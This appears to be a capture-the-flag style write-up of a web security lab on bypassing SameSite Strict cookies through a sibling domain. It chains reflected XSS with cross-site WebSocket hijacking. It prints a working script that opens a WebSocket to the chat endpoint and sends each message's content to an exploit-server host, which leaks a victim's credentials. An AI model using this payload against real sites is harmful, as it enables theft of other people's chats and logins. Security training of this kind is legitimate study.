 # SameSite Strict bypass via sibling domain.html
So, a little enumeration shows that the application doesn't have much other interesting functionality than login and live chat. Our goal is to exfiltrate the login information for a user, and we are told, that it is in the chat history of the victim.
The fact that the website doesn't have much indicates that we need to do deeper enumeration.
While inspecting the site map in burp, the server sets `Access-Control-Allow-Origin: https://cms-0a1800cf033fe33080870de4003e00ee.web-security-academy.net` header. This is really intersting. Going on the site reveals a login page.
Since the goal is CSWSH, I searched for XXS. Sending `<script>alert(1)</script>` made an alert. This means that we need to inject a script that makes a socket, which will pass the `SameSite: strict` which is set. Then the script needs to exfiltrate the data.
This is the script tag I wrote:
```html
    <script>
        const s = new WebSocket("https://0a1800cf033fe33080870de4003e00ee.web-security-academy.net/chat");  
        s.onopen = function() {
            s.send("READY");
        };
        s.onmessage = function(event) {
            if(d = JSON.parse(event.data)) {
                fetch('https://exploit-0a080026032be3cb804c0c1a012600f6.exploit-server.net/exploit?data=' + encodeURIComponent(d['content']));
            }
        };
    </script>
```
Now, we need to craft a malicious website, which will make the victim submit the script to the vulnerable login page. The exploit can be seen here:
[Soltion html](./assets/SameSite%20Strict%20bypass%20via%20sibling%20domain.html)
Looking at the logs, the credentials for Carlos has been sent. We use them to login and solve the lab.